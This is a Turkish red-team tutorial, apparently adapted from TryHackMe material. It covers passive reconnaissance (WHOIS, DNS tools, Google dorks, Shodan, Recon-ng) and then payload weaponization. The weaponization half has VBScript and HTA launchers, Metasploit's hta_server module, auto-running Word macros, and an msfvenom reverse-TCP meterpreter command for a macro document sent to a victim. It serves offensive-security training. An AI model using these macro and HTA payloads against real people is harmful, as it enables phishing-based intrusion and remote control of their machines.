# Initial Access (İlk Erişim)

Bu bölümde, hedef sistemle ilk erişim sağlamak için gerekli teknikleri ve perspektifleri göreceğiz.

## Red Team Recon (Kırmızı Takım Keşfi)

### Pasif Keşifler

#### DNS SORGULARI

WHOIS, RFC 3912 spesifikasyonunu izleyen bir istek ve yanıt protokolüdür. Bir WHOIS sunucusu, gelen istekler için TCP bağlantı noktası 43'ü dinler. Domain kayıt kuruluşu (Domain Registrar), kiraladığı domainlerin WHOIS kayıtlarının tutulmasından sorumludur. whois, kaydedilen tüm kayıtları sağlamak için WHOIS sunucusunu sorgulayacaktır. Aşağıdaki örnekte whois'in bize neler sağladığını görebiliriz:

+ Kayıt şirketi WHOIS sunucusu
+ Kayıt şirketi URL'si
+ Kayıt oluşturma tarihi
+ Güncelleme tarihi
+ Kaydeden iletişim bilgileri ve adresi (gizlilik nedeniyle saklanmadığı sürece)
+ Yönetici iletişim bilgileri ve adresi (gizlilik nedeniyle saklanmadığı sürece)
+ Teknik iletişim bilgileri ve adresi (gizlilik nedeniyle saklanmadığı sürece)



Yukarıda da gördüğümüz gibi sadece domain ile pek çok değerli bilgiye ulaşmak mümkün. Whois aramasından sonra şansımız yaver gidebilir ve diğer teknik bilgilerin yanı sıra isimleri, e-posta adreslerini, posta adreslerini ve telefon numaralarını bulabiliriz. Whois sorgusu sonunda söz konusu domain'e ait yetkili isim sunucularını buluyoruz.

DNS sorguları, başta Unix benzeri sistemler olmak üzere sistemlerimizde bulunan birçok farklı araçla yürütülebilmektedir. Unix benzeri sistemlerde, Windows'ta ve macOS'ta bulunan yaygın araçlardan biri nslookup'tır. Aşağıdaki sorguda nslookup'ın domain'e ilişkin A ve AAAA kayıtlarını almak için varsayılan DNS sunucusunu nasıl kullandığını görebiliriz :



Unix benzeri sistemlerde yaygın olarak bulunan diğer bir araç, Domain Information Groper(dig) kısaltması olan dig'dir. dig birçok sorgu seçeneği sunar ve hatta kullanılacak farklı bir DNS sunucusu belirlemenize olanak tanır. Örneğin Cloudflare'in DNS sunucusunu kullanabiliriz: dig @1.1.1.1 google.com



host, DNS kayıtları için DNS sunucularını sorgulamak için başka bir kullanışlı alternatiftir.



Unix benzeri sistemlerle birlikte gelen son araç traceroute veya MS Windows sistemlerinde tracert'tir. Adından da anlaşılacağı üzere paketlerin sistemimizden hedef hosta kadar izlediği rotayı takip eder. Aşağıdaki konsol çıktısı traceroute'un bizi hedef sisteme bağlayan yönlendiricileri (atlamaları) sağladığını gösteriyor. Bazı yönlendiricilerin traceroute tarafından gönderilen paketlere yanıt vermediğini ve bunun sonucunda IP adreslerini göremediğimizi vurgulamakta fayda var; Böyle bir durumu belirtmek için * kullanılır.



Özetle, aşağıdakilere her zaman güvenebiliriz:

+ Whois, WHOIS veritabanını sorgulamak için
+ DNS sunucularını sorgulamak için nslookup, dig veya host

WHOIS veritabanları ve DNS sunucuları kamuya açık bilgileri tutar ve her ikisinin de sorgulanması herhangi bir şüpheli trafik oluşturmaz.

Dahası, sistemimiz ile hedef ana bilgisayar arasındaki atlamaları keşfetmek için Traceroute'a (Linux ve macOS sistemlerinde traceroute ve MS Windows sistemlerinde tracert) güvenebiliriz.

#### GELİŞMİŞ ARAMALAR(DORKING)

Her arama motorunun biraz farklı kuralları ve söz dizimi olabilir. Farklı arama motorlarına özel söz dizimi hakkında bilgi edinmek için ilgili yardım sayfalarını ziyaret etmeniz gerekecektir. Google gibi bazı arama motorları gelişmiş aramalar için bir web arayüzü sağlar: Google Gelişmiş Arama. Diğer zamanlarda, Google Web Aramalarını İyileştirme, DuckDuckGo Arama Sözdizimi ve Bing Gelişmiş Arama Seçenekleri gibi sözdizimini ezbere öğrenmek en iyisidir.

Arama motorları, yeni web sayfalarını ve dosyalarını indekslemek için dünya çapındaki web'i gece gündüz tarar. Bazen bu, gizli bilgilerin indekslenmesine yol açabilir. Gizli bilgilere örnek olarak aşağıdakiler verilebilir:

+ Şirket içi kullanıma yönelik belgeler
+ Kullanıcı adlarını, e-posta adreslerini ve hatta şifreleri içeren gizli e-tablolar
+ Kullanıcı adlarını içeren dosyalar
+ Hassas dizinler
+ Hizmet sürüm numarası (bazıları savunmasız ve yamalanmamış olabilir)
+ Hata mesajları

Gelişmiş Google aramalarını belirli terimlerle birleştirerek hassas bilgiler içeren belgeler veya savunmasız web sunucuları bulunabilir. Google Hacking Database (GHDB) gibi web siteleri bu tür arama terimlerini toplar ve kamuya açıktır. Müşterimizin arama motorları aracılığıyla açığa çıkan gizli bilgileri olup olmadığını görmek için bazı GHDB sorgularına göz atalım. GHDB aşağıdaki kategoriler altında sorgular içerir:

+ Dayanak yerleri
     GHDB-ID: 6364'ü, Nginx günlüklerini keşfetmek için intitle:"index of" "nginx.log" sorgusunu kullandığı ve kötüye kullanılabilen sunucu yanlış yapılandırmalarını ortaya çıkarabileceği için düşünün.
+ Kullanıcı Adlarını İçeren Dosyalar
     Örneğin, GHDB-ID: 7047, ilginç bilgiler sızdıran dosyaları keşfetmek için intitle:"index of" "contacts.txt" arama terimini kullanır.
+ Hassas Dizinler
     Örneğin, özel bir RSA anahtarının açığa çıkıp çıkmadığını öğrenmek için inurl:/certs/server.key arama terimini kullanan GHDB-ID: 6768'i düşünün.
+ Web Sunucusu Tespiti
     "GlassFish Sunucusu - Sunucu Çalışıyor" sorgusunu kullanarak GlassFish Sunucusu bilgilerini algılayan GHDB-ID: 6876'yı göz önünde bulundurun.
+ Savunmasız Dosyalar
     Örneğin, GHDB-ID: 7786 tarafından sağlanan intitle:"index of" "*.php" sorgusunu kullanarak PHP dosyalarını bulmayı deneyebiliriz.
+ Savunmasız Sunucular
     Örneğin, SolarWinds Orion web konsollarını keşfetmek için GHDB-ID: 6728, intext:"kullanıcı adı" intext:"orion core" -solarwinds.com sorgusunu kullanır.
+ Hata mesajları
     Hata mesajlarından pek çok yararlı bilgi çıkarılabilir. Bir örnek, hatalarla ilgili günlük dosyalarını bulmak için intitle:"index of" error.log sorgusunu kullanan GHDB-ID: 5963'tür.

Sorgular, ölçütlere uyan ve dizine eklenen tüm web sunucularından sonuçlar döndüreceğinden, bu Google sorgularını ihtiyaçlarınıza uyacak şekilde uyarlamanız gerekebilir. Yasal sorunlardan kaçınmak için, yasal sözleşmenizin kapsamı dışındaki dosyalara erişimden kaçınmak en iyisidir.

+ Sosyal Medya Faktörü

Sosyal medya siteleri sadece kişisel kullanım için değil kurumsal kullanım için de oldukça popüler hale geldi. Bazı sosyal medya platformları hedef hakkında tonlarca bilgiyi ortaya çıkarabilir. Pek çok kullanıcının kendileri ve çalışmaları hakkındaki ayrıntıları gereğinden fazla paylaşma eğiliminde olması nedeniyle bu özellikle doğrudur. Birkaçını saymak gerekirse aşağıdakileri kontrol etmekte fayda var:

     LinkedIn
     Twitter
     Facebook
     Instagram

Sosyal medya web siteleri belirli bir şirketin çalışanlarının adlarını toplamayı kolaylaştırır; dahası, belirli durumlarda, şifre kurtarma sorularının yanıtlarını ortaya çıkarabilecek veya hedeflenen bir kelime listesine dahil edilecek fikirler edinebilecek belirli bilgi parçalarını öğrenebilirsiniz. Teknik personelin gönderileri bir şirketin sistemleri ve tedarikçileri hakkındaki ayrıntıları ortaya çıkarabilir. Örneğin yakın zamanda Juniper sertifikaları almış bir ağ mühendisi, işvereninin ortamında kullanılan Juniper ağ altyapısından söz edebilir.

+ İş Reklamları

İş ilanları aynı zamanda size bir şirket hakkında da çok şey anlatabilir. Teknik pozisyonlara yönelik iş ilanları, adların ve e-posta adreslerinin ifşa edilmesinin yanı sıra, hedef şirketin sistemleri ve altyapısı hakkında fikir verebilir. Popüler iş ilanları bir ülkeden diğerine farklılık gösterebilir. Müşterinizin reklamlarını yayınlayacağı ülkelerdeki iş ilanı sitelerini kontrol ettiğinizden emin olun. Dahası, herhangi bir açık pozisyon için web sitelerini kontrol etmek ve bunun herhangi bir ilginç bilgi sızdırıp sızdırmadığını görmek her zaman faydalı olacaktır.

Wayback Machine'in, müşterinizin sitesindeki iş açılış sayfasının önceki sürümlerini almanıza yardımcı olabileceğini unutmayın.

#### Özel Arama Motorları

WHOIS ve DNS sorgularından sonra, bize geçmişe yönelik whois sorgularını sağlayan bazı 3.parti servisleri vardır. Kullanımı ücretsiz, gelişmiş DNS hizmetleri sunarlar. Bu web sitelerinden bazıları zengin işlevsellik sunar ve tek bir alanı keşfetmeye ayrılmış eksiksiz bir odaya sahip olabilir. Şimdilik DNS ile ilgili temel hususlara odaklanacağız. Aşağıdakileri dikkate alacağız:

+ ViewDNS.info

ViewDNS.info Ters IP Araması sunar. Başlangıçta her web sunucusu bir veya daha fazla IP adresi kullanırdı; ancak günümüzde paylaşımlı barındırma sunucularına rastlamak yaygındır. Paylaşımlı barındırmada, bir IP adresi farklı alan adlarına sahip birçok farklı web sunucusu arasında paylaşılır. Ters IP araması ile bir alan adından veya bir IP adresinden başlayarak, belirli bir IP adresini/adreslerini kullanarak diğer alan adlarını bulabilirsiniz.

Aşağıdaki şekilde technopat.com tarafından kullanılan IP adreslerini paylaşan diğer sunucuları bulmak için ters IP aramasını kullandık. Bu nedenle IP adresini bilmenin mutlaka tek bir web sitesine yol açmayacağını unutmamak önemlidir.



+ Tehdit İstihbarat Platformu

Tehdit İstihbaratı Platformu, bir alan adı veya IP adresi sağlamanızı gerektirir ve kötü amaçlı yazılım kontrollerinden WHOIS ve DNS sorgularına kadar bir dizi test başlatır. WHOIS ve DNS sonuçları, whois ve dig kullanarak elde edeceğimiz sonuçlara benzer ancak Tehdit İstihbaratı Platformu bunları daha okunabilir ve görsel olarak daha çekici bir şekilde sunar. Raporumuzla elde ettiğimiz ekstra bilgiler var. Örneğin technopat.com'a baktığımızda aşağıdaki şekilde görüldüğü gibi Name Server (NS) kayıtlarının ilgili IPv4 ve IPv6 adreslerine çözümlendiğini görüyoruz.

Öte yandan technopat.com diye arama yaptığımızda aynı IP adresindeki diğer alan adlarının listesine de ulaşabiliyoruz. Aşağıdaki şekilde gördüğümüz sonuç ViewDNS.info kullanarak elde ettiğimiz sonuçlara benzer.



+ Censys

Censys Search, IP adresleri ve domainleri hakkında birçok bilgi sağlayabilir. Bu örnekte mitre.org'un çözümlediği IP adreslerinden birine bakıyoruz. Aradığımız IP adresinin Amazon'a ait olduğu sonucunu rahatlıkla çıkarabiliriz. Diğerlerinin yanı sıra 22, 80 ve 443 numaralı bağlantı noktalarıyla ilgili bilgileri görebiliriz; ancak bu IP adresinin mitre.org dışındaki web sitelerine sunuculuk yapmak için kullanıldığı açıktır. Sözleşmemizin kapsamı dışındaki sistemleri incelemememiz için bu ayrımı yapmak kritik öneme sahiptir.



+ Shodan

Shodan'ı komut satırından düzgün bir şekilde kullanmak için Shodan'da bir hesap oluşturmanız, ardından shodan init API_KEY komutunu kullanarak shodan'ı API anahtarınızı kullanacak şekilde yapılandırmanız gerekir.

Shodan hesabınızın türüne bağlı olarak farklı filtreler kullanabilirsiniz. Shodan ile neler yapabileceğiniz hakkında daha fazla bilgi edinmek için Shodan CLI'ye göz atmanızı öneririz. nslookup technopat.com adresinden aldığımız IP adreslerinden biri hakkında bilgi aramanın basit bir örneğini gösterelim. shodan Host IP_ADDRESS'i kullanarak, aşağıda gösterildiği gibi IP adresinin ve açık portların coğrafi konumunu alabiliriz.



#### Recon-ng Framework

Recon-ng, OSINT çalışmasını otomatikleştirmeye yardımcı olan bir frameworktür. Çeşitli yazarların modüllerini kullanır ve çok sayıda işlevsellik sağlar. Bazı modüllerin çalışması için anahtarlar gerekir; anahtar, modülün ilgili çevrimiçi API'yi sorgulamasına olanak tanır.

Sızma testi ve kırmızı ekip açısından Recon-ng, bir operasyona veya OSINT görevine yardımcı olabilecek çeşitli bilgi parçalarını bulmak için kullanılabilir. Toplanan tüm veriler otomatik olarak çalışma alanınızla ilgili veri tabanına kaydedilir. Örneğin, daha sonra port taraması yapmak üzere host adreslerini keşfedebilir veya phishing saldırıları için iletişim e-posta adreslerini toplayabilirsiniz.

recon-ng komutunu çalıştırarak Recon-ng'yi başlatabilirsiniz. Recon-ng'yi başlatmak size [recon-ng][default] > gibi bir bilgi istemi verecektir. Bu aşamada kullanmak istediğiniz kurulu modülü seçmeniz gerekmektedir. Ancak, eğer recon-ng'yi ilk kez çalıştırıyorsanız, ihtiyacınız olan modül(ler)i kurmanız gerekecektir.

+ Çalışma Alanı Oluşturmak

Araştırmanız için yeni bir çalışma alanı oluşturmak üzere workspaces create CALISMA_ALANI çalıştırın. Örneğin, workspaces create thmredteam, thmredteam adında bir çalışma alanı yaratacaktır.

recon-ng -w CALISMA_ALANI, belirli çalışma alanıyla yeniden bağlantı kurmaya başlar.



+ Veritabanını Doldurmak

Keşifte, tek bir bilgiyle başlayıp onu yeni bilgilere dönüştürüyorsunuz. Örneğin, araştırmanıza bir şirket adıyla başlayabilir ve bunu domainleri, kişileri ve profilleri keşfetmek için kullanabilirsiniz. Daha sonra elde ettiğiniz yeni bilgileri onu daha da dönüştürmek ve hedefiniz hakkında daha fazla bilgi edinmek için kullanırsınız.

Hedefin domaini olan thmredteam.com'u bildiğimiz ve bunu aktif çalışma alanıyla ilgili Recon-ng veritabanına beslemek istediğimiz durumu ele alalım. Veritabanımızdaki tabloların isimlerini kontrol etmek istersek db schema komutunu çalıştırabiliriz.

Domains tablosuna thmredteam.com alan adını eklemek istiyoruz. Bunu db insert domains komutunu kullanarak yapabiliriz.





+ Recon-ng Pazarı(Marketplace)

Bir domainimiz var, dolayısıyla bir sonraki mantıklı adım, domainleri diğer bilgi türlerine dönüştüren bir modül aramak olacaktır. Yeni bir Recon-ng kurulumuyla başladığımızı varsayarsak, pazardan uygun modülleri arayacağız.

Marketplace'i kullanarak modülleri yüklemeden önce, Marketplace kullanımına ilişkin bazı yararlı komutlar şunlardır:

+ Anahtar kelimeyle mevcut modülleri aramak için marketplace search ANAHTAR_KELİME.
+ marketplace info MODUL, söz konusu modül hakkında bilgi sağlamak için kullanılır.
+ Belirtilen modülü Recon-ng'ye yüklemek için marketplace install MODUL kullanılır.
+ Belirtilen modülü kaldırmak için marketplace remove MODUL.

Modüller keşif, içe aktarma, keşif ve raporlama gibi birden fazla kategori altında gruplandırılmıştır. Üstelik recon, dönüşüm türüne bağlı olarak birçok alt kategoriye de ayrılıyor. Mevcut tüm modüllerin bir listesini almak için marketplace search çalıştırın.

Aşağıdaki terminalde domains- içeren modülleri arıyoruz.



domains-companies, domains-contacts ve etki domains-hosts gibi keşif kapsamında birçok alt kategorinin olduğunu fark ediyoruz. Bu isimlendirme bize bu dönüşümden ne tür yeni bilgiler elde edeceğimizi anlatıyor. Örneğin, domains-hosts, modülün sağlanan domainle ilgili hostları bulacağı anlamına gelir.

Whoxy_whois gibi bazı modüller, K sütununun altındaki * işaretinden de anlaşılacağı üzere bir anahtar gerektirir. Bu gereksinim, ilgili hizmeti kullanmak için bir anahtarımız olmadığı sürece bu modülün kullanılamayacağını gösterir.

Diğer modüllerin D sütununun altında * ile gösterilen bağımlılıkları vardır. Bağımlılıklar, ilgili modülü kullanmak için üçüncü taraf Python kitaplıklarının gerekli olabileceğini göstermektedir.

Recon/domains-hosts/google_site_web ile ilgilendiğinizi varsayalım. Belirli bir modül hakkında daha fazla bilgi edinmek için marketplace info MODUL komutunu kullanabilirsiniz; bu modülün ne yaptığını açıklayan önemli bir komuttur. Örneğin, marketplace info google_site_web şu açıklamayı sağlar: "'Site' arama operatörünü kullanarak Google.com'daki hostları toplar. 'hosts' tablosunu sonuçlarla günceller." Yani bu modül Google arama motorunu ve “site” operatörünü kullanacak.

marketplace install MODUL komutu ile istediğimiz modülün kurulumunu gerçekleştirebiliriz, örneğin marketplace install MODUL.

+ Kurulu Modüllerle Çalışmak

Aşağıdakileri kullanarak modüllerle çalışabiliriz:

+ Kurulu tüm modüllerin bir listesini almak için modules search
+ Belirli bir modülü belleğe yüklemek için modules load MODUL

+ Yüklenen modül için ayarlayabileceğimiz seçenekleri listelemek için options list.
+ options set (option) (value) seçeneğin değerini ayarlamak için.

Bir önceki adımda google_site_web modülünü yükledik, o halde onu load google_site_web kullanarak yükleyelim ve run ile çalıştıralım. Zaten thmredteam.com domainini veritabanına ekledik, yani modül çalıştırıldığında veritabanından bu değeri okuyacak, yeni tür bilgiler alacak ve bunları sırasıyla veritabanına ekleyecektir. Komutlar ve sonuçlar aşağıdaki terminal çıktısında gösterilmektedir.



Bu modül Google'ı sorguladı ve cafe.thmredteam.com ve clinic.thmredteam.com olmak üzere iki host keşfetti. Bu adımları ilerlettiğimizde yeni host'lar da ortaya çıkabilir.

+ Anahtarlar (Keys)

Bazı modüller ilgili hizmet API'sine ait anahtar olmadan kullanılamaz. K, söz konusu modülü kullanabilmek için ilgili servis anahtarını vermeniz gerektiğini belirtir.

+ keys list anahtarları listeler
+ keys add KEY_ISMI KEY_DEGERI bir anahtar ekler
+ keys remove KEY_ISMI bir anahtarı kaldırır

Modül setini kurduktan sonra, bunları yüklemeye ve çalıştırmaya devam edebilirsiniz.

+ modules load MODUL kurulu bir modülü yükler
+ CTRL + C modül işleyişini sonlandırır.
+ Yüklenen modülün bilgilerini incelemek için info.
+ options list seçilen modül için mevcut seçenekleri listeler.
+ options set ISIM DEGER
+ Yüklenen modülü çalıştırmak için run.

## Weaponization (Silahlanma)

Bu bölümde silahlanma için kullanılan farklı teknikleri tartışacağız.

Silahlanma, Siber Öldürme Zinciri modelinin ikinci aşamasıdır. Bu aşamada saldırgan, word belgeleri, PDF'ler vb. gibi teslim edilebilir payloadları kullanarak kendi kötü amaçlı kodunu oluşturur ve geliştirir. Silahlanma aşaması, hedef makineden yararlanmak ve ilk erişim elde etmek için kötü niyetli silahı kullanmayı amaçlamaktadır.

Çoğu kuruluşta Windows işletim sistemi çalışıyor ve bu da olası bir hedef olacak. Bir kuruluşun çevre politikası, güvenlik ihlallerini önlemek için genellikle .exe dosyalarının indirilmesini ve yürütülmesini engeller. Bu nedenle kırmızı ekip çalışanları, phishing, sosyal mühendislik, tarayıcı veya yazılımdan yararlanma, USB veya web yöntemleri gibi çeşitli kanallar aracılığıyla gönderilen özel payloadlar oluşturmaya güveniyor.

Aşağıdaki grafik, hazırlanmış özel bir PDF veya Microsoft Office belgesinin kötü amaçlı bir payload sağlamak için kullanıldığı bir silahlanma örneğidir. Özel bir payload, kırmızı ekip altyapısının komuta ve kontrol ortamına tekrar bağlanacak şekilde yapılandırılmıştır.



Kırmızı takım araç kitleri hakkında daha fazla bilgi için: https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development İlk erişim, payload geliştirme, dağıtım yöntemleri ve diğerleri de dahil olmak üzere her şeye sahip bir GitHub reposu.

Çoğu kuruluş, kontrollü ortamlarında .exe dosyalarının yürütülmesini engeller veya izler. Bu nedenle, kırmızı takım çalışanları, yerleşik Windows komut dosyası oluşturma teknolojileri gibi diğer teknikleri kullanarak payloadların yürütülmesine güvenirler. Bu nedenle, bu bölüm aşağıdakiler de dahil olmak üzere çeşitli popüler ve etkili komut dosyası yazma tekniklerine odaklanmaktadır:

+ The Windows Script Host (Windows Komut Dosyası Host'u) (WSH)
+ Bir HTML Uygulaması (HTA)
+ Visual Basic Uygulamaları (VBA)
+ PowerShell (PSH)

### Windows Script Host (WSH)

WSH, işletim sistemindeki görevleri otomatikleştirmek ve yönetmek için toplu dosyaları çalıştıran yerleşik bir Windows yönetim aracıdır.

vbs ve vbe dahil olmak üzere çeşitli Microsoft Visual Basic Komut Dosyalarının (VBScript) yürütülmesinden sorumlu olan cscript.exe (komut satırı komut dosyaları için) ve wscript.exe (UI komut dosyaları için) Windows yerel motorudur. Windows işletim sistemindeki VBScript motorunun, uygulamaları normal bir kullanıcıyla aynı erişim ve izin düzeyinde çalıştırdığını ve yürüttüğünü unutmamak önemlidir; bu nedenle kırmızı takım oyuncuları için faydalıdır.

Şimdi THM'ye Hoş Geldiniz mesajını gösteren bir Windows mesaj kutusu oluşturmak için basit bir VBScript kodu yazalım. Aşağıdaki kodu hello.vbs gibi bir dosyaya kaydettiğinizden emin olun.

    Dim message
    message = "Hello World"
    MsgBox message

İlk satırda Dim kullanarak mesaj değişkenini deklare ettik. Daha sonra mesaj değişkeninde Hello World string değerini saklarız. Bir sonraki satırda değişkenin içeriğini göstermek için MsgBox fonksiyonunu kullanıyoruz. Daha sonra hello.vbs içeriğini çalıştırmak ve yürütmek için wscript'i kullanırız. Sonuç olarak, Hello World mesajını içeren bir Windows mesajı açılacaktır.



Şimdi yürütülebilir dosyaları(.exe)çalıştırmak için VBScript'i kullanalım. Aşağıdaki vbs kodu, Windows hesap makinesini çağırmak içindir; bu, .exe dosyalarını Windows yerel motorunu (WSH) kullanarak çalıştırabileceğimizin kanıtıdır.

    Set shell = WScript.CreateObject("Wscript.Shell")

    shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True

Yürütme payload'ını çağırmak için CreateObject'i kullanarak WScript kütüphanesinin bir nesnesini oluşturuyoruz. Daha sonra payloadı yürütmek için Run metodunu kullanırız. Windows hesap makinesi calc.exe'yi çalıştıracağız.

Vbs dosyasını çalıştırmak için wscript kullanarak aşağıdaki gibi çalıştırabiliriz,

    wscript c:\Users\thm\Desktop\payload.vbs

ya da cscript ile çalıştırabiliriz,

    cscript.exe c:\Users\thm\Desktop\payload.vbs

Sonuç olarak, masaüstümüzde bir hesap makinesi belirir.



Başka bir numara. VBS dosyaları kara listedeyse, dosyayı .txt dosyası olarak yeniden adlandırabilir ve wscript kullanarak çalıştırabiliriz.



### HTML Application (HTA)

HTA, “HTML Uygulaması” anlamına gelir. Nasıl görüntülendiğine ve işlendiğine ilişkin tüm bilgileri alan indirilebilir bir dosya oluşturmanıza olanak tanır. HTA'lar olarak da bilinen HTML Uygulamaları, JScript ve VBScript içeren dinamik HTML sayfalarıdır. LOLBINS (Living-off-the-land Binaries) aracı mshta, HTA dosyalarını yürütmek için kullanılır. Kendi başına veya Internet Explorer'dan otomatik olarak çalıştırılabilir.

Aşağıdaki örnekte, cmd.exe'yi çalıştırmak için PoC olarak payloadımızda bir ActiveXObject kullanacağız. Aşağıdaki HTML kodunu inceleyelim :

     <html>
     <body>
     
     </body>
     </html>

Daha sonra payload.hta'yı bir web sunucusundan servis edelim, bu, saldıran makineden şu şekilde yapılabilir:

     python -m http.server 8080

Kurban makinesinde, Microsoft Edge'i kullanarak http://10.8.232.37:8090/payload.hta adresindeki kötü amaçlı bağlantıyı ziyaret edelim. 10.8.232.37, saldırganın ip adresidir.



Run'a bastığımızda payload.hta yürütülür ve ardından cmd.exe'yi çağırır. Aşağıdaki şekil cmd.exe dosyasını başarıyla çalıştırdığımızı göstermektedir.



Aşağıdaki gibi bir reverse shell payload'ı oluşturabiliriz,



Kurban, bizim oluşturduğumuz payload'ı sistemine indirip çalıştırırsa makinemize bir beacon sağlanacaktır bu beacon'u alabilmek için nc, metasploit gibi toollar kullanabiliriz.

Diğer bir yöntem de, metasploit kullanarak daha etkili bir payload oluşturup güzel bir şekilde servis edebiliriz. Bunun için metapsloitteki exploit/windows/misc/hta_server modülünü kullanacağız.



Eğer kurban verilen linki bir şekilde ziyaret ederse bilgisayarına otomatik olarak .hta dosyası inecektir. Ve eğer kurban bunu çalıştırırsa bir meterpreter session elde edeceğiz.

### Visual Basic for Application (VBA) ve Makrolar

VBA, Microsoft tarafından Microsoft Word, Excel, PowerPoint vb. gibi Microsoft uygulamaları için uygulanan bir programlama dili olan Visual Basic for Applications anlamına gelir. VBA programlama, bir kullanıcı ile Microsoft Office uygulamaları arasındaki neredeyse her klavye ve fare etkileşimindeki görevlerin otomatikleştirilmesine olanak tanır.

Makrolar, Visual Basic for Applications (VBA) olarak bilinen bir programlama dilinde yazılmış gömülü kod içeren Microsoft Office uygulamalarıdır. Otomatik süreçler oluşturarak manuel görevleri hızlandırmak için özel işlevler oluşturmak için kullanılır. VBA'nın özelliklerinden biri Windows Uygulama Programlama Arayüzüne (API) ve diğer düşük seviyeli işlevlere erişimdir.

Bu bölümde VBA'nın temellerini ve saldırganın kötü amaçlı Microsoft belgeleri oluşturmak için makroları kullanma yollarını inceleyeceğiz.

İlk olarak boş bir Word dökümanı oluşturalım.

Ardından View --> Macros diyip yeni bir makro eklemek için Create diyelim.



Önümüze kod yazmamız için yeni bir pencere açılacak. Burada VBA kodları yazabiliriz. Örnek olarak bir mesaj kutusu çıkartmak için aşağıdaki kodları yazalım :

     Sub test_makro()
     MsgBox("Hello world")
     End Sub

Kodun çalışıp çalışmadığından emin olmak için Run diyip testini yapabiliriz. Kaydetmek için CTRL+S yapalım.



Burada kaydetme tipi olarak Word Macro-Enabled Document olarak seçiyoruz ve Kaydet diyoruz.

Kaydettiğimiz bu Word dökümanını açarsak güvenlik önlemi olarak makrolar otomatik olarak devre dışı kalıyor. Bunu ya kullanıcı bilmeden kendisi açar ya da kullanıcı daha önceden açık hale getirmiştir.(Bilemeyiz) Dosyayı açtıktan sonra View --> Macros --> List Macros diyip eklediğimiz makroyu seçip run dersek makromuzun çalıştığını görmüş olacağız.



Fakat kullanıcının bu adımları gerçekleştirmeyeceği çok bariz. Bu yüzden word dökümanı açıldığı anda makronun çalışmasını sağlamak için AutoOpen() ve Document_Open() built-in fonksiyonlarını kullanacağız :

     Sub Document_Open()
     test_macro
     End Sub

     Sub AutoOpen()
     test_macro
     End Sub

     Sub test_macro()
     MsgBox("Hello world")
     End Sub

Kodu yukarıdaki göründüğü gibi değiştirip tekrar kaydettiğimizde dökümanı açar açmaz makromuzun çalıştığını görebiliriz :



Bunu öğrendiğimize göre aşağıdaki gibi bir kod ile Windows'ta bulunan aplikasyonları da çalıştırabiliyoruz :

    Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
    End Sub

Şimdi bunu reverse shell alabilmek için kullanalım :

Msfvenom ile payload'ı oluşturabiliriz :

     msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.84.185 LPORT=4444 -f vba -o payload.vba

Fakat buradaki sorun, payload'ın excel'e göre hazırlanmış olması. Bunu word'e göre hazırlamak için oluşturulan dosyayı(bu durumda payload.vba) bir text editörü ile açıp Workbook_Open()'i Document_Open() şeklinde değiştiriyoruz.

Ardından Word dosyamızı tekrar düzenleyip makronun içine payload.vba'nın içeriğini kopyalıyoruz :



Dosyayı bu şekilde kaydedip kurbana gönderiyoruz. Eğer kurban bu dökümanı açarsa bir reverse shell elde edeceğiz. Bu reverse shell'i metasploitte exploit/multi/handler ile dinliyoruz...

### Powershell (PSH)

Powershell, .NET framework kullanılarak oluşturulan Windows Scripting Dili ve shell ortamıdır.

Bu aynı zamanda Powershell'in .NET işlevlerini doğrudan shellden yürütmesine de olanak tanır. Cmdlet'ler adı verilen çoğu Powershell komutu .NET'te yazılmıştır. Diğer kodlama dilleri ve shell ortamlarından farklı olarak, bu cmdlet'lerin çıktısı nesnelerdir; bu da Powershell'i bir nevi nesne yönelimli kılar.

Bu aynı zamanda cmdlet'leri çalıştırmanın çıktı nesnesi üzerinde eylemler gerçekleştirmenize olanak sağladığı anlamına gelir (bu da çıktının bir cmdlet'ten diğerine aktarılmasını kolaylaştırır). Bir cmdlet'in normal formatı Fiil-İsim kullanılarak temsil edilir; örneğin, komutları listeleyen cmdlet'e Get-Command adı verilir
Kullanılacak yaygın fiiller şunlardır:

+ Get
+ Start
+ Stop
+ Read
+ Write
+ New
+ Out

#### Temel Powershell Komutları

Artık cmdlet'lerin nasıl çalıştığını anladığımıza göre, onları nasıl kullanacağımızı öğrenelim. Burada hatırlamanız gereken en önemli şey Get-Command ve Get-Help'in en iyi arkadaşlarınız olduğudur.

+ Get-Help

Get-Help bir cmdlet hakkındaki bilgileri görüntüler. Belirli bir komutla ilgili yardım almak için aşağıdakileri çalıştırın:

Get-Help Komut-Adı

-examples bayrağını ileterek komutun tam olarak nasıl kullanılacağını da anlayabilirsiniz. Bu, aşağıdaki gibi çıktı döndürür:



+ Get-Command

Get-Command, mevcut Bilgisayarda yüklü olan tüm cmdlet'leri alır. Bu cmdlet'in en güzel tarafı aşağıdaki gibi desen eşleşmesine izin vermesidir.

Get-Command Fiil-* veya Get-Command *-İsim

New fiilinin tüm cmdlet'lerini görüntülemek için Get-Command New-* çalıştırıldığında aşağıdakiler görüntülenir:



+ Obje Manipülasyonu

Önceki bölümde her cmdlet'in çıktısının nasıl bir nesne olduğunu gördük. Çıktıyı değiştirmek istiyorsak birkaç şeyi anlamamız gerekir:

+ çıktıyı diğer cmdlet'lere geçirmek
+ bilgi ayıklamak için belirli nesne cmdlet'lerini kullanma

Pipeline(|), çıktıyı bir cmdlet'ten diğerine geçirmek için kullanılır. Diğer shellerle karşılaştırıldığında en büyük fark, Powershell'in pipe sonrasındaki komuta metin veya dize iletmek yerine bir nesneyi sonraki cmdlet'e geçirmesidir. Nesne yönelimli frameworklerde her nesne gibi, bir nesne de yöntemler ve özellikler içerecektir.

Yöntemleri, cmdlet'in çıktısına uygulanabilecek işlevler olarak düşünebilirsiniz ve özellikleri, bir cmdlet'in çıktısındaki değişkenler olarak düşünebilirsiniz. Bu ayrıntıları görüntülemek için bir cmdlet'in çıktısını Get-Member cmdlet'ine iletin:

Fiil-İsim | Get-Member

Get-Command üyelerini görüntülemek için bunu çalıştırmanın bir örneği:

Get-Command | Get-Member -MemberType Method



Yukarıdaki resimden, yöntemler ve özellikler arasında da seçim yapabileceğinizi görebilirsiniz.

+ Önceki cmdletlerden objeler üretmek

Nesneleri manipüle etmenin bir yolu, özellikleri bir cmdlet'in çıktısından çıkarmak ve yeni bir nesne oluşturmaktır. Bu, Select-Object cmdlet'i kullanılarak yapılır.

Aşağıda dizinlerin listelenmesine ve yalnızca adın seçilmesine ilişkin bir örnek verilmiştir:



